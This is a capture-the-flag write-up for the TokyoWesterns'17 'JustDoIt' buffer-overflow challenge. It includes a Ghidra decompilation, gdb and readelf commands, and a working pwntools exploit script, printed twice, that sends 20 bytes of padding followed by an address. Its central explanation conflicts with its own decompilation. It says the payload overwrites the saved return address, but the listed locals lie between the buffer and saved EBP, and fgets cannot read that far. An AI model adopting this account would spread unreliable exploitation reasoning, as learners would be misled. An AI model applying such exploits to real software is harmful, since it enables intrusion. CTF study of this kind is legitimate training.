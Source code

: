 # TokyoWesterns'17 - JustDoIt (BOF) — Writeup

**Category:** pwn / buffer overflow (binary exploitation)

**Files present in the challenge folder**

```
flag.txt   # contains the flag (read by the binary at runtime)
ghidra.txt # Ghidra decompilation output (main function)
just       # the vulnerable binary (ELF)
just.cast  # a ttycast recording of an interactive run (useful to replay)
just.py    # exploit script using pwntools
```

---

## Quick summary

This is a classic stack-based buffer overflow. The binary reads user input into a fixed-size stack buffer using `fgets()` with a larger size than the buffer, allowing us to overwrite the saved frame data (saved EBP / saved return address). By crafting a payload that overwrites the return address, we can hijack control flow to achieve the challenge goal (the provided exploit overwrites the return address with a convenient symbol address and prints the flag).

---

## Decompiled `main()` (from `ghidra.txt`)

```c
undefined4 main(void)
{
  char *pcVar1;
  int iVar2;
  char local_28 [16];         // 16-byte stack buffer
  FILE *local_18;
  char *local_14;
  undefined1 *local_c;

  local_c = &stack0x00000004;
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_14 = failed_message;
  local_18 = fopen("flag.txt","r");
  if (local_18 == (FILE *)0x0) {
    perror("file open error.\n");
    exit(0);
  }
  pcVar1 = fgets(flag,0x30,local_18);  // flag is read into a global buffer
  if (pcVar1 == (char *)0x0) {
    perror("file read error.\n");
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  pcVar1 = fgets(local_28,0x20,stdin);  // <-- reads 0x20 (32) bytes INTO a 16-byte buffer
  if (pcVar1 == (char *)0x0) {
    perror("input error.\n");
    exit(0);
  }
  iVar2 = strcmp(local_28,PASSWORD);
  if (iVar2 == 0) {
    local_14 = success_message;
  }
  puts(local_14);
  return 0;
}
```

### Important observations

- `local_28` is a 16-byte stack buffer.
- The program calls `fgets(local_28, 0x20, stdin)`: it allows up to **32 bytes** to be read into a **16-byte** buffer — a clear buffer overflow.
- After reading input the program compares the input to a `PASSWORD`. If the compare succeeds it changes the message printed.
- The flag is loaded from `flag.txt` into a global variable named `flag` earlier in `main()`.

---

## Vulnerability (root cause)

Using `fgets()` with a larger length than the destination buffer makes it possible to overwrite stack data (saved EBP and the saved return address). The stack layout around `local_28` is roughly:

```
[ higher addresses ]
... saved return address  <-- overwrite here to change control flow
... saved EBP
local_28 (16 bytes)
[ lower addresses ]
```

So to reach the return address we need `16 (buffer) + 4 (saved EBP) = 20` bytes of padding.

---

## Determining the exact offset (recommended workflow)

You can confirm the offset with either `gdb` + cyclic patterns (pwntools `cyclic`) or by reasoning from the stack layout shown above.

Example using pwntools from a Python REPL or script:

```py
from pwn import *
# generate a cyclic pattern
pat = cyclic(100)
p = process('./just')
p.recvuntil(b"Input the password.")
p.sendline(pat)
# run the binary in gdb or inspect a crash to find the offset
```

If the program crashes and you find the overwritten value at the instruction pointer is `0x6161616b` (for example), use `cyclic_find` to get the offset:

```py
cyclic_find(0x6161616b)
```

For this binary the offset works out to **20** bytes (16-byte buffer + 4-byte saved EBP).

---

## Finding useful addresses (symbols / data)

We can inspect the binary to find useful addresses (global variables, strings, functions). Typical commands:

```bash
readelf -s just | grep -E "flag|PASSWORD|failed_message|success_message"
nm -n just | grep flag
objdump -s -j .rodata just | less
```

The exploit provided in the repository uses the address `0x0804a080` — this address was found by inspecting the binary's symbols/sections (e.g. `readelf`/`objdump`/`nm`) and corresponds to a useful symbol/data in the binary which the exploit targets.

---

## Exploitation

**Payload structure**

- `b"A" * 20` — padding up to the saved return address.
- `p32(0x0804a080)` — overwrite the saved return address with the chosen address (found in the previous step).

`just.py` (included in the folder) implements this exploit using pwntools:

```py
from pwn import *
pay = b''
pay += b"A"*20
pay += p32(0x804a080)

p = process('./just')
p.recvuntil(b"Input the password.")
p.sendline(pay)
p.interactive()
```

**Run it**

```bash
python3 just.py
```

The script sends the crafted payload and drops you into interactive mode so you can see the program output. In the challenge environment this produces the desired output (the flag or a message change depending on the symbol targeted).

---

## GDB walkthrough (recommended commands)

Start the program in gdb and set a breakpoint after the `fgets` call or at `main`'s return to inspect the stack:

```gdb
gdb -q ./just
break main
run
# single-step or set a breakpoint after fgets to inspect stack
# Example: set a breakpoint at the instruction after the fgets call or at the strcmp call
break *main+<offset-to-strcmp>
continue
# when stopped, examine stack and buffer
x/32xb $esp-0x40   # view surrounding stack bytes
```

Use `info frame`, `info registers`, and `x/s` / `x/x` to inspect memory locations and confirm where `local_28` is laid out and how many bytes are needed to reach the saved return address.

---

## Example output (what to expect)

When running the vulnerable binary normally:

```
$ ./just
Welcome my secret service. Do you know the password?
Input the password.
AAAAAAAAAAAAAAAA
Invalid Password, Try Again!
```

When running `just.py` with the crafted payload you should see the altered behavior and the flag (or a changed success message) depending on the exact binary build and address targeted.

---

## Full exploit script (copy from repository)

Include the `just.py` present in the folder. It is short and already functional:

```py
from pwn import *
pay = b''
pay += b"A"*20
pay += p32(0x804a080)
p = process('./just')
p.recvuntil(b"Input the password.")
p.sendline(pay)
p.interactive()
```

---

## Conclusion

This challenge is an instructive example of a classic stack-based buffer overflow caused by mismatched buffer sizes and `fgets()` usage. The exploit overwrites the saved return address by sending `20` bytes of padding followed by a 4-byte address discovered in the binary. Reproducing the exploit requires confirming the offset with cyclic patterns in pwntools and finding the target address with `readelf`/`nm`/`objdump` or `gdb`.
